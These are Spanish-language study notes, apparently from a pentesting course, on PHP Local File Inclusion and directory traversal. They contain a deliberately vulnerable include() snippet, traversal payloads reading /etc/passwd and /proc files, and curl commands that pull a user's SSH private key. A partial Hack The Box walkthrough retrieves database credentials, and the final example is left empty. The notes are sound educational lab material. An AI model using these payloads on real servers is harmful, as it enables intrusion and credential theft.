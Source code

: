 ** Local File Inclusion (Inclusión local de archivos) **
Vulnerabilidad asociada a una mala programación en funciones PHP para incluir / llamar a archivos. Este fallo permite incluir archivos locales del servidor donde se aloja el recurso web en la llamada a archivos en la función.

--> Comprobar si es vulnerable:
	`http://localhost/index.php?page=loquesea`
	salida --> Warning: main()...   o   Warning: include()....
	
--> Código vulnerable vs Código seguro:
	`<?php include $_GET['pagina']; ?>`	|| `<?php include('pagina.php'); ?>`
	
==================================================================

** Directory Traversal / Path Traversal Attack **
Un servidor vulnerable a LFI es posible que sea vulnerable a Directory Traversal, esta técnica utiliza "../" para recorrer hacia atrás en el sistema de ficheros del servidor local.
	`http://example.com/?file=../../../../etc/passwd`
	
==================================================================
	
** Pruebas de vulnerabilidad en equipo local **
Directorio web de Apache --> `/var/www/html`
Arrancar servicio Apache --> `service apache2 start`
Comprobar uso del puerto 80 --> `lsof -i:80`

Fichero vulnerable a LFI, example.php. Función include, vulnerable a LFI -->
``` php
<?php
	$filename=$_GET['file'];
	include($filename);
?>
```
Ver archivo local desde el navegador --> `http://localhost/example.php?file=/etc/passwd`
Otros ficheros importantes --> `/etc/group`, `/proc/sched_debug`
Ver archivo local desde la CLI
> Buscar usuarios que tengan asociada una shell
> `curl -s "http://localhost/example.php?file=/etc/passwd" | grep 'sh$'`
> Ver clave privada rsa para conectarnos vía ssh. Si la clave tiene contraseña, debería crackearse con ssh2john.
> `curl -s "http://localhost/example.php?file=/home/s4vitar/.ssh/id_rsa"`

==================================================================

** Enumeración gracias a LFI **
> Fichero que muestra procesos de las tareas en ejecución --> `/proc/sched_debug`
> Enumeración de IPs o Interfaces de red disponibles --> `/proc/net/fib_trie`
> Enumeración de puertos públicos o privados --> `/proc/net/tcp`

==================================================================

** Ejemplos de esta vulnerabilidad en entornos reales ** 
Elastic vulnerability lfi
`../../../../../../../../etc/amporta.conf%00&module=Accounts&action`



==================================================================

** Ejemplos **
1. Máquina Breadcrumbs_HTB.
	1. En la página http://10.10.10.228/php/books.php hay un formulario para obtener una lista de libros.
	2. Estos seguramente serán obtenidos de una base de datos.
	3. Capturamos petición con Burpsuite.
	4. En los parámetros de la petición encontramos:
		1. ...title=test&author=test&book=test&method=1
		2. Probando en cada uno de los parámetros, book direcciona hacia un recurso donde se encuentra la información.
		3. Muy probablemente sea objeto de LFI.
		4.  ...title=test&author=test&book=../includes/bookController.php&method=1
		5.  Lectura del código PHP de esa página gracias que es vulnerable a:
			1.  Directory Path Traversal
			2.  Local File Inclusion
		6.  Posibles credenciales: 
			1.   ...title=test&author=test&book=../db/db.php&method=1
			
2.   
